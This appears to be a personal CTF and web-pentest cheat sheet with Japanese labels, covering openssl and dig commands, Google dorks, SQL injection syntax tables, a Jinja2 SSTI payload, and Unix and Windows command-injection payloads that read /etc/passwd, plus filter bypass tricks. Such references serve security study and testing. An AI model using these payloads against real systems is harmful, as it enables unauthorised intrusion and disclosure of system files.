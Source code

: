 # tips

## RSA

秘密鍵の中身を見る

```
openssl rsa -in <private-key.pem> -text -noout
```

公開鍵の中身を見る

```
openssl rsa -pubin -in <public-key.pem> -text -noout
```

## DNS

dig

```
dig <example.com> IN
dig <example.com> ANY
dig <example.com> TXT
```

## Phishing

- MX (Mail exchange record)
- SPF (Sender Policy Framework)
- DKIM (DomainKeys Identified Mail)
- DMARC (Domain-based Message Authentication, Reporting and Conformance)

## OSINT

- Google Dorks: https://www.exploit-db.com/google-hacking-database

  - ext: `ext:(doc | pdf | xls | txt)`
  - filetype: `filetype:log`
  - intext: `intext:"Control Panel"`
  - intitle: `intitle:"Manager"`
  - inurl: `inurl:index.php`
  - site: `site:ftp.*.*.*`

## SSTI

**Server Side Template Injection**

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Jinja2

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

## SQLi

**SQL Injection**

- LIKE: `%`, `*`

**MySQL**

| 説明       | SQL                         |
| ---------- | --------------------------- |
| コメント   | `-- ` or `#` or `/* ... */` |
| If         | CASE                        |
| 文字列結合 | &#124;&#124;                |
|            | CONCAT(x, y, ...)           |
|            | GROUP_CONCAT(x, y, ...)     |
| 部分文字列 | SUBSTRING(x, index, length) |
| 長さ       | LENGTH(stuff)               |

**SQLite3**

| 説明                   | SQL                               |
| ---------------------- | --------------------------------- |
| コメント               | --                                |
| If                     | CASE                              |
| 文字列結合             | &#124;&#124;                      |
| 部分文字列             | substr(x,y,z)                     |
| 長さ                   | length(stuff)                     |
| シングルクォートの生成 | select substr(quote(hex(0)),1,1); |
| ダブルクォートの生成   | select cast(X'22' as text);       |

参考: http://atta.cked.me/home/sqlite3injectioncheatsheet

## Command Injection

**Unix Payloads**

```
&lt;!--#exec%20cmd=&quot;/bin/cat%20/etc/passwd&quot;--&gt;
;netstat -a;
;system('cat%20/etc/passwd')
|id
\n/bin/ls -al\n
a);id
%0Acat%20/etc/passwd
& ping -i 30 127.0.0.1 &
<?php system("cat /etc/passwd");?>
```

**Windows Payloads**

```
'
'"
"
"'
%0a
%0a%0d
eval('ls')
exec('ls')
system('ls')
| sleep 1
; sleep 1
& sleep 1
&& sleep 1`
```

Links:

- https://github.com/payloadbox/command-injection-payload-list

**Payloads with Python**

```
a=().__class__.__base__.__subclasses__()[59]()._module.__builtins__['__import__']
a('os').popen('cat flag').read()
```

Bypass:

- to Hex: `(` => `\\x28`
- to Octal: `(` => `\50`

## Databases

- Default Passwords: https://cirt.net/passwords
- Exploit: https://www.exploit-db.com/

## Shodan:

- https://exploits.shodan.io/welcome

## Sites

- requestbin: https://requestbin.com/
